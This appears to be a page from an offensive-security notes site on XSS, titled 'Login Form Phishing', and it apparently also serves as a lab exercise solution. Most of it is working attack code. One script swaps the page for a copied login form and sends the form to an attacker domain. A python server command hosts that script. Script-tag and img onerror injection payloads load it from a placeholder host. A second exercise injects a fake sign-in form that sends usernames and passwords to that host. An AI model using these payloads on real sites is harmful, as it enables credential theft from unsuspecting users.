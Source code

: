 ```yaml
---
title: Login Form Phishing
layout: default
parent: XSS
has_children: false
nav_order: 5
---
```


<h2>Hosting method: (change the login to the login path page eg /auth.)</h2>

1. First create a file name phish.js with the following content:
```
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://domain/phish"
	document.getElementsByTagName("form")[0].method = "get"
}))
```

2. Host the file using Python:
`python3 -m http.server 80`

3. Inject the payload:
`<script src="http://ownIP/phish.js"></script>`

4. Can also use the following if script tag is blocked:
`<img src="x" onerror="document.head.appendChild(Object.assign(document.createElement('script'), {src: 'http://domain/phish.js'}))">`


<h2>Alternative Exercise Solution</h2>

1. Create a login page phishexercise.js
```
document.getElementsByTagName("html")[0].innerHTML = "<form action='http://domain/login' method='GET'><input type='text' placeholder='name@example.com' name='username'><input type='password' placeholder='Password' name='password'><button class='w-100 btn btn-lg btn-primary' type='submit'>Sign in</button></form>"
```

2. Insert this into the XSS vulnerable:
```
<img src='x' onerror="var s = document.createElement('script'); s.src = 'http://domain/phishingexercise.js'; s.async = true; document.body.appendChild(s);">
```